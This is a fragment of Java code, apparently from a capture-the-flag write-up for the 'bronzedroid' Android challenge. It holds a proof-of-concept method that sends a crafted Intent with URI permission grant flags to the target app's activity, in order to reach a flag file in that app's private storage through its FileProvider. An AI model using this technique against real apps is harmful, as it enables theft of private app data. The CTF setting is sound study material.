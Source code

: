 ```php
​  
        } catch (Exception e) {  
            Log.e("attacker", e.toString());  
        }  
​  
    }  
    public void poc() {  
        Log.d("PwnPwn", "start");  
        Intent i \= new Intent();  
        i.setClassName("com.bytectf.bronzedroid", "com.bytectf.bronzedroid.MainActivity");  
        i.setAction("ACTION\_SHARET\_TO\_ME");  
        i.addFlags(Intent.FLAG\_GRANT\_READ\_URI\_PERMISSION | Intent.FLAG\_GRANT\_WRITE\_URI\_PERMISSION);  
        i.setData(Uri.parse("content://com.bytectf.bronzedroid.fileprovider/root/data/data/com.bytectf.bronzedroid/files/flag"));  
        startActivityForResult(i, 5);  
    }  
​  
}
```